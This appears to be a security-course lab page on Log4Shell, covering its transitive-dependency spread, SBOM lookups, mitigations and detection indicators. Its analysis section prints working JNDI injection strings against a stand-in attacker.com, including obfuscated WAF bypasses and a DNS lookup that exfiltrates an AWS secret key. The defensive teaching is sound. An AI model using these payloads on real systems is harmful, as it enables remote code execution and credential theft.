

# Lab 6.9: Case Study. Log4Shell (CVE-2021-44228)

<div class="lab-meta">
  <span>Understand: ~10 min | Analyze: ~10 min | Lessons: ~10 min | Detect: ~5 min</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="../../tier-1/1.1-dependency-resolution/">Lab 1.1</a></span>
</div>

On December 9, 2021, CVE-2021-44228 was publicly disclosed. By December 10, mass exploitation was underway worldwide. Every security team scrambled to answer: "Do we use Log4j?" Most could not answer quickly because Log4j was a **transitive dependency** buried levels deep. Your application uses Spring Boot, which uses spring-boot-starter-logging, which pulls in log4j-core. The developer never typed "log4j" in their `pom.xml`. A single transitive dependency in a logging library gave attackers unauthenticated RCE on any Java application that logged user-controlled input. CVSS 10.0, affecting an estimated 93% of enterprise cloud environments.

---

### Attack Flow



---

## Environment

| Component | Path | Description |
|-----------|------|-------------|
| Vulnerable App | `/app/` | Spring Boot application with transitive Log4j dependency |
| Dependency Analysis | `/app/dependency-tree.txt` | Maven dependency tree showing the Log4j path |
| SBOM | `/app/sbom.json` | CycloneDX SBOM revealing transitive dependencies |
| Detection Tools | `/app/detection/` | Network indicators and detection scripts |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. What Log4j Is and Why It Mattered"

    **Goal:** Understand Log4Shell as a supply chain problem: a dangerous feature in a transitive dependency nobody chose.

### The timeline

| Date | Event |
|------|-------|
| 2013 | Log4j 2.0 released with JNDI lookup support enabled by default |
| 2021-11-24 | Alibaba Cloud Security privately reports the vulnerability |
| 2021-12-09 | Public disclosure; PoC exploits within hours |
| 2021-12-10 | Mass exploitation begins worldwide |
| 2021-12-13 | CVE-2021-45046: 2.15.0 fix incomplete; Log4j 2.16.0 released |
| 2021-12-18 | CVE-2021-45105: DoS in 2.16.0; Log4j 2.17.0 released |
| 2021-12-28 | CVE-2021-44832: RCE via JDBC Appender; Log4j 2.17.1 released |

Four CVEs in three weeks. Each "fix" was incomplete.

### The JNDI lookup feature

Log4j supported variable interpolation in log messages: `${jndi:ldap://some-server/resource}`. When Log4j encountered this in **any logged string**, it performed a network lookup. Any user-controlled input that gets logged becomes an attack vector:

```
GET / HTTP/1.1
User-Agent: ${jndi:ldap://attacker.com/exploit}
```

The application logs the User-Agent, Log4j resolves the JNDI expression, connects to the attacker's LDAP server, and executes the returned Java class.

### Why this is a supply chain problem

```bash
cat /app/pom.xml
cat /app/dependency-tree.txt
```

The `pom.xml` lists Spring Boot Web, Spring Data JPA, PostgreSQL. **Log4j does not appear.** It arrives as a transitive dependency five levels deep. The developer never chose Log4j. They are running code they did not choose, from maintainers they do not know, with features they did not ask for.

---

???+ warning "Phase 2: ANALYZE. The Attack Mechanism and Response Chaos"

    **Goal:** Walk through exploitation, obfuscation bypasses, and the multi-CVE response.

### Step 1: Obfuscation bypasses

The first WAF rules blocked `${jndi:`. Attackers found bypasses immediately using Log4j's own features:

```
# Case variation (Log4j is case-insensitive):
${JNDI:ldap://attacker.com/a}

# Nested lookups:
${j${::-n}di:ldap://attacker.com/a}
${${lower:j}ndi:ldap://attacker.com/a}

# Data exfiltration without RCE:
${jndi:dns://attacker.com/${env:AWS_SECRET_ACCESS_KEY}}
```

### Step 2: Why SBOM would have helped

```bash
cat /app/sbom.json | python3 -c "
import json, sys
sbom = json.load(sys.stdin)
for comp in sbom.get('components', []):
    if 'log4j' in comp.get('name', '').lower():
        print(f\"  AFFECTED: {comp['group']}:{comp['name']}:{comp['version']}\")
"
```

With an SBOM, finding affected applications is a database query. Without one, organizations had to manually search every repository, run `mvn dependency:tree` on every project, and `find / -name "log4j-core-*.jar"` on every server. This took days to weeks while exploitation was ongoing.

### Step 3: The mitigation options

While patching (in preference order):

1. **UPGRADE** Log4j to 2.17.1+
2. **SET** `-Dlog4j2.formatMsgNoLookups=true` (only works for 2.10.0+, does NOT fix CVE-2021-45046)
3. **REMOVE** JndiLookup class: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
4. **WAF RULES** for JNDI patterns (incomplete, bypasses found daily)

---

!!! abstract "Checkpoint"
    You should be able to trace Log4j through the dependency tree from your application to log4j-core. Run `cat /app/dependency-tree.txt` and identify the path. Also query the SBOM to confirm the vulnerable version is listed.

---

???+ success "Phase 3: LESSONS. What Log4Shell Taught the Industry"

    **Goal:** Extract systemic lessons about transitive dependencies, SBOM, and vulnerability response.

### Lesson 1: SBOM is not optional

US Executive Order 14028 mandated SBOM for federal software after Log4Shell. "Generate SBOM" became a CI/CD pipeline step. Before Log4Shell, "We don't use Log4j" was a common (and wrong) assumption.

```bash
cat /app/sbom.json | python3 -c "
import json, sys
sbom = json.load(sys.stdin)
print('SBOM Components:')
for comp in sbom.get('components', []):
    name = f\"{comp.get('group', '')}:{comp['name']}:{comp['version']}\"
    if 'log4j' in name.lower():
        print(f'  [VULNERABLE] {name}')
    else:
        print(f'  [OK] {name}')
"
```

### Lesson 2: Transitive dependency visibility is critical

3 direct dependencies. 50+ transitive dependencies. Any transitive dependency can introduce vulnerabilities. Tools: `mvn dependency:tree`, `gradle dependencies`, `npm ls --all`, `pipdeptree`, `go mod graph`.

### Lesson 3: First patches may be incomplete

Log4Shell required FOUR patches over three weeks. Build processes that can redeploy quickly. Pin exact versions. Override transitive dependency versions (`<dependencyManagement>` in Maven, `overrides` in npm).

### Verify understanding

```bash
weaklink verify 6.9
```

---

??? danger "Phase 4: DETECT. Finding Log4Shell in the Wild"

    **Goal:** Build detection for Log4Shell exploitation using WAF, network indicators, and process monitoring.

WAF rules detect JNDI patterns including obfuscation, but new bypasses were discovered daily. The only real fix is upgrading Log4j.

Key network indicators:

- Outbound LDAP to non-internal servers (TCP 389, 636, or non-standard ports)
- Outbound RMI connections (TCP 1099)
- DNS queries with encoded data (`${jndi:dns://attacker.com/${env:SECRET}}`)
- Java process spawning shell commands post-exploitation

| Indicator | Description |
|-----------|-------------|
| `java` making outbound LDAP | JNDI lookup triggered by exploit |
| `java` spawning `bash`, `curl`, `wget` | Post-exploitation command execution |
| New `.class` files in `/tmp/` from `java` | Downloaded malicious class from LDAP |
| High DNS query rate from `java` | DNS-based JNDI data exfiltration |

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Log4j as a ubiquitous transitive dependency exploited at scale |
| **Exploit Public-Facing Application** | [T1190](https://attack.mitre.org/techniques/T1190/) | JNDI injection via any logged input field |
| **Command and Scripting Interpreter: JavaScript** | [T1059.007](https://attack.mitre.org/techniques/T1059/007/) | Post-exploitation payload via JNDI class loading |

---

??? tip "SOC Relevance"

    **Alerts:** "JNDI injection pattern detected" (WAF/IDS), "Outbound LDAP from application server" (firewall/NDR), "Java process spawned shell command" (EDR), "DNS query with encoded data" (DNS monitoring).

    During the initial response, SOCs were overwhelmed by scanning volume (both attackers and defenders testing). Obfuscation bypasses outpaced WAF rule updates. Focus on **successful exploitation indicators** (outbound LDAP connections, post-exploitation processes) rather than injection attempts.

    **Triage:** Check if Log4j 2.x (<2.17.1) is in the dependency tree (SBOM), analyze the JNDI callback URL, check for outbound LDAP/RMI from the app server, check for post-exploitation child processes, if exploited assume full compromise and isolate.

---

## What You Learned

1. **Log4Shell was a supply chain vulnerability.** Log4j arrived as a transitive dependency nobody chose. SBOM would have reduced response time from days to minutes.
2. **Any logged user input was an RCE vector.** JNDI lookup in a logging library created a nearly universal attack surface.
3. **First patches are not always the last.** Four CVEs in three weeks. Fast-path patching and automated deployment are essential.

## Further Reading

- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
- [CISA: Apache Log4j Vulnerability Guidance](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-356a)
- [LunaSec: Log4Shell Explained](https://www.lunasec.io/docs/blog/log4j-zero-day/)
